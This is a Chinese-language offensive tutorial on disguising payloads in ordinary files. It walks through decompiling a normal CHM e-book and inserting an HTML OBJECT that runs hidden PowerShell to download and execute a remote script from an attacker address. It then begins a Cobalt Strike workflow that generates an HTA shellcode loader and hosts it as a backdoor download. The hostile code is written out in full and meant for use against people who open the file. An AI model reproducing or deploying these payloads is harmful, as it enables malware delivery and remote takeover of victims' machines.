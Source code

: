 #### CHM伪装

找一个**正常的CHM电子书**，解压后，将Payload插入其中某个或整个页面，加载编译，当电子书打开修改页面后上线

```
hh -decompile .\\html xx.CHM   # 解压正常的.chm电子书
```

将上线代码插入j解压后的 html 文件

```
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap::shortcut">
<PARAM name="Item1" value=",powershell.exe,-nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.0.103:84/a'))">
<PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
```

 执行后点到修改的那一页便上线了

### LNK快捷方式

1、新建任意的快捷方式

2、cs 生成：Attacks -> Packages -> Html Application

<img src=".\图片\Snipaste_2023-01-02_20-40-48.png" alt="Snipaste_2023-01-02_20-40-48" style="zoom:80%;" />

生成使用的是 VBScript 语言加载 shellcode

3、cs 文件托管，teamserver 启动web服务构建远程下载地址 ，上传我们刚生成的 1.hta

Attacks——>Web Drive by——>Host file

```
http://192.168.0.103:85/download/file.ext    # 1.hta 后门下载地址
```
